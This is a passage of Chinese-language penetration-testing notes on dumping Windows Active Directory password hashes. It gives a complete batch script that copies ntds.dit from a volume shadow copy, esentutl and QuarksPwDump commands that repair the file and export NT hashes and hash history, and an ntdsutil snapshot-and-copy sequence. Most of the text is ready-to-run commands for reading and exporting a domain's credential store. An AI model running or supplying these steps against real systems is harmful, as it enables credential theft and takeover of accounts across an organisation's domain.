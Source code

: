 
> 3.pwdump【直接运行Pwdump7即可】

> 4.vssown.vbs + libesedb + NtdsXtract【太耗时】
> http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html

> 5.ShadowCopy+QuarksPwDump【参考内容见下】：
> http://blog.csdn.net/citelao/article/details/50948103

```
（1）使用ShadowCopy的命令行版，编写bat实现拷贝ntds.dit至当前目录

setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vsshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
参考链接： http://blogs.msdn.com/b/adioltean/archive/2005/01/05/346793.aspx

（2）使用QuarksPwDump直接读取信息并将结果导出至文件，先执行

esentutl /p /o ntds.dit
修复复制出来的数据库

QuarksPwDump.exe -dhb -hist -nt ntds.dit -o log.txt
读取并导出。

注：实际使用时ntds.dit和log.txt需要加绝对路径

Tips：

QuarksPwDump.exe：Dump various types of Windows credentials without injecting in any process.
源码下载链接，vs2010直接编译即可
https://github.com/quarkslab/quarkspwdump
```

> 6.ntdsutil.exe + QuarksPwDump.exe【生成ntds.dit，再读取hash】

```
#ntdsutil
#snapshot
#activate instance ntds
#create
#mount {GUID}
#copy c:\MOUNT_POINT\WINDOWS\NTDS\NTDS.dit c:\NTDS_saved.dit
#unmount {GUID}
#delete {GUID}
#quit
#quit

#QuarksPwDump.exe --dump-hash-domain --ntds-file c:\ntds.dit
```

